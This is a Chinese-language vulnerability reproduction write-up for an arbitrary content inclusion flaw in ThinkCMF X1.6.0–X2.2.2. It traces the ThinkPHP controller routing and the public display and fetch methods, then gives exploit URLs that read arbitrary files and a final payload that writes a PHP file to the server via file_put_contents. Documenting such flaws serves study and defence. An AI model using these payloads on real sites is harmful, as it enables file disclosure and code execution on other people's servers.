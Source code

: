 # ThinkCMF 框架上的任意内容包含漏洞

### 一、漏洞简介

### 二、漏洞影响

* ThinkCMF X1.6.0
* ThinkCMF X2.1.0
* ThinkCMF X2.2.0
* ThinkCMF X2.2.1
* ThinkCMF X2.2.2

### 三、复现过程

根据index.php中的配置，他的项目路径为application，打开 Portal 下的 Controller 目录，选择一个控制类文件。

![](images/15893429356099.png)


发现他的父类为Common\Controller\HomebaseController。

在HomeBaseController中加入如下测试代码

![](images/15893429444320.png)


ThinkPHP是一套基于MVC的应用程序框架，被分成三个核心部件：模型（M）、视图（V）、控制器（C）。

由于添加的代码在控制器中，根据ThinkPHP框架约定可以通过a参数来指定对应的函数名，但是该函数的修饰符必须为Public, 而添加的代码正好符合该条件。

可以通过如下URL进行访问，并且可以添加GET参数arg1传递给函数。


```
http://127.0.0.1/cmfx-master/?a=test_public&arg1=run%20success
```

![](images/15893429657885.png)


HomeBaseController类中有一些访问权限为public的函数，

![](images/15893429732800.png)


重点关注display函数.看描述就是可以自定义加载模版，通过$this->parseTemplate 函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配。

然后调用THinkphp Controller 函数的display方法


```php
/**
 * 加载模板和页面输出 可以返回输出内容
 * @access public
 * @param string $templateFile 模板文件名
 * @param string $charset 模板输出字符集
 * @param string $contentType 输出类型
 * @param string $content 模板输出内容
 * @return mixed
 */
public function display($templateFile = '', $charset = '', $contentType = '', $content = '', $prefix = '') {
    parent::display($this->parseTemplate($templateFile), $charset, $contentType,$content,$prefix);
}

```

再往下就是调用Think View的fetch方法，这里的TMPL_ENGINE_TYPE 为Think, 最终模版内容解析在ParseTemplateBehavior中完成

如下调用即可加载任意文件

`http://url:81/cmfx-master/?a=display&templateFile=README.md`

![](images/15893430104966.png)


往下面翻阅发现还有fetch方法，display方法相对fetch只是多了一个render的过程，而且这里不需要知道文件路径

最终完美payload


```
http://url/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
```